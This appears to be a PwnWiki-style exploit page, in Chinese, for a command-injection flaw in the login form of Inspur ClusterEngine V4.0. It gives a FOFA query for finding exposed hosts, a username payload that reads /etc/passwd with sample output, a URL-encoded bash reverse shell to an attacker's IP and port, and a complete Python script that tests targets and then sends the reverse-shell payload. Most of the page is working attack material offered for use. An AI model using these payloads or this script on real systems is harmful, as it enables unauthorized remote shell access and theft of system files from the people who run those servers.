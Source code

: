 <languages />

漏洞影响
--------

浪潮ClusterEngineV4.0

FOFA
----

    title="TSCEV4.0"

POC
---

<div lang="chinese" dir="ltr" class="mw-content-ltr">
出現 root:x:0:0 則存在漏洞

</div>
    op=login&username=test`$(cat /etc/passwd)`

    {"err":"/bin/sh: root:x:0:0:root:/root:/bin/bash: No such file or directory\n","exitcode":1,"out":"the user test does not exist\nerror:1\n"}

<div lang="chinese" dir="ltr" class="mw-content-ltr">
反彈shell
---------

</div>
    op=login&username=test`$(bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F{IP}}%2F{PORT}%200%3E%261)`

EXP
---

    import requests
    import sys
    import random
    import re
    from requests.packages.urllib3.exceptions import InsecureRequestWarning

    def title():
        print('+------------------------------------------')
        print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
        print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
        print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
        print('+  \033[34mVersion: 浪潮ClusterEngineV4.0                                     \033[0m')
        print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
        print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
        print('+  \033[36mIP          >>> xxx.xxx.xxx.xxx:9999                              \033[0m')
        print('+  \033[36mPORT        >>> 9999                                              \033[0m')
        print('+------------------------------------------')

    def POC_1(target_url):
        vuln_url = target_url + "/login"
        headers = {
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
            "Content-Type": "application/x-www-form-urlencoded",
            "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9",
        }
        data = "op=login&username=test`$(cat /etc/passwd)`"
        try:
            requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
            response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=4)
            etc_passwd = re.findall(r'\{"err":"/bin/sh: (.*?): No such', response.text)
            if response.status_code == 200 and "root:x:0:0" in response.text:
                print("\033[32m[o]    目标 {} 可能存在漏洞, 响应为:{} \033[0m".format(target_url, etc_passwd[0]))
                POC_2(target_url)
            else:
                print("\033[31m[x] 目标 {} 不存在漏洞 \033[0m".format(target_url))
        except Exception as e:
            print("\033[31m[x] 目标 {} 请求失败 \033[0m".format(target_url))

    def POC_2(target_url):
        IP = str(input("\033[35m请输入监听IP   >>> \033[0m"))
        PORT = str(input("\033[35m请输入监听PORT >>> \033[0m"))
        vuln_url = target_url + "/login"
        headers = {
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
            "Content-Type": "application/x-www-form-urlencoded",
            "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9",
        }
        data = "op=login&username=`bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F{}%2F{}%200%3E%261`".format(IP, PORT)
        try:
            requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
            response = requests.post(url=vuln_url, headers=headers, data=data, verify=False)
        except Exception as e:
            print("\033[31m[x] 目标 {} 请求失败 \033[0m".format(target_url))

    if __name__ == '__main__':
        title()
        target_url = str(input("\033[35mPlease input Attack Url\nUrl    >>> \033[0m"))
        POC_1(target_url)

<div lang="chinese" dir="ltr" class="mw-content-ltr">
參考
----

</div>
<https://short.pwnwiki.org/?c=aLBsJw>